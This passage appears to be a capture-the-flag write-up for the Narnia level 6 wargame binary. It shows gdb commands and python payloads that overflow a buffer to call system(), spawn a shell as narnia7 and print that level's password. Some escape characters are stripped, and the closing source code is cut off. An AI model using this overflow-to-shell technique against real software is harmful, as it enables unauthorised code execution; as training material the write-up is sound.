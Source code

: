 We can see that the ls -la command is in the edx register with an address of 0x565555c5. To get the address of the system function, we can simply type the following in the gdb console:

{% highlight bash %}
(gdb) p system$1 = {<text variable, no debug info>} 0xf7e4c850 <system>
{% endhighlight %}

The system is located at 0xf7e4c850.

#### Exploit

Therefore, we can flood the buffer with 8 bytes before overwriting the eip. Accordingly, the exploit will look like the following:

COMMAND + JUNK + x50xc8xe4xf7 + ‘ ‘ + JUNK

Using this exploit template, we can run the narnia6 binary in gdb and pass this payload::

{% highlight bash %}
(gdb) r $(python -c "print 'ls'+'A'*6+'x50xc8xe4xf7'+' '+'B'*4")  
The program being debugged has been started already.  
Start it from the beginning? (y or n) y  
Starting program: /narnia/narnia6 $(python -c "print 'ls'+'A'*6+'x50xc8xe4xf7'+' '+'B'*4")  
sh: 1: lsAAAAAAP: not found  
[Inferior 1 (process 21970) exited with code 01]
{% endhighlight %}

Note how the command + the junk (namely ‘ls’ + ‘A’ * 6) is equal to eight bytes

We can see that the sh command is trying to execute lsAAAAAAP, which is not a command. However, this can be easily resolved by adding a semicolon to the end of the ls command using one less ‘A’:

{% highlight bash %}
(gdb) r $(python -c "print 'ls;'+'A'*5+'x50xc8xe4xf7'+' '+'B'*4")  
Starting program: /narnia/narnia6 $(python -c "print 'ls;'+'A'*5+'x50xc8xe4xf7'+' '+'B'*4")  
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8  
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.csh: 1: AAAAAP: not found  
[Inferior 1 (process 22579) exited with code 01]
{% endhighlight %}

The ls command was successfully executed. Running the narnia6 binary outside of gdb and implementing the sh command instead, we get a shell as narnia7:

{% highlight bash %}
narnia6@narnia:/narnia$ ./narnia6 $(python -c "print 'sh;'+'A'*5+'x50xc8xe4xf7'+' '+'B'*4")  
$ whoami  
narnia7  
$ cat /etc/narnia_pass/narnia7  
ahkiaziphu
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
  
extern char **environ;// tired of fixing values...  
// - morla  
unsigned long get_sp(void) {  
      __asm__("movl %esp,%eaxnt"              "and $0xff000000, %eax"              );  